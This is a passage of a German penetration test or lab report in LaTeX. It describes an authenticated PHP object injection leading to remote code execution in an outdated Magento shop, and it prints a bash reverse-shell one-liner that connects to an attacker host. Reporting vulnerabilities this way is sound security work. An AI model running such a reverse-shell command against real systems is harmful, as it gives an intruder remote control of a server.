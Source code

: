 \section{\makecvssbadge Tobold's Pfeifenkraut-Shop: Authenticated Remote Code Execution}

\subsection*{Proof of concept}
Mittels eine weitere bekannten Schwachstelle für Magento-Installationen unterhalb der Version 1.9 können Systembefehle auf dem Webserver ausgeführt werden. Um diese Schwachstelle ausnutzen zu können müssen Anmeldedaten für einen Nutzer mit Administratorzugriff vorliegen. Die Erstellung eines solchen Accounts wurde im vorherigen Kapitel erläutert. Damit der Exploit funktioniert muss zunächst eine Bestellung aufgegeben werden und diese durch einene Admin bestätigt werden. Anschließend kann das Python-Skript, welches die Schwachstelle ausnutzt verwendet werden. Das angepasste Python-Skript befindet sich in \autoref{listing:appendix:pfeifenkrautshop_RCE}.  Die Schwachstelle nutzt eine unsicheres PHP-Skript aus. Dieses Skript behandelt PHP-Objekte unsicher, sodass eine PHP Object Injection möglich ist. Dafür wird eine POP Chain übergeben, welche bei der Deserialisierung der Objekte einen übergebenen System-Befehl ausführt. Wird dieser System-Befehl
so gewählt wie in \autoref{listing:bash-reverse-shell} kann eine Reverse Shell initiiert werden. Der passende Netcat-Listener, der auf dem Angreifersystem ausgeführt wird, für diese Reverse Shell ist in \autoref{listing:netcat-listener} dargestellt.

\begin{listing}[!ht]
\begin{verbatim}
bash -c 'bash -i >& /dev/tcp/10.0.32.5/9001 0>&1
\end{verbatim}
\caption{Bash Reverse Shell}
\label{listing:bash-reverse-shell}
\end{listing}

\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/07_pfeifenkraut_shop_proof.png}
    \caption{Proof für die Webanwendung Tobold's Pfeifenkrautshop}
    \label{fig:07_pfeifenkraut_shop_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Updaten der Magento-Version. In den aktuellen Versionen ist die Sicherheitslücke geschlossen.
    
\end{itemize}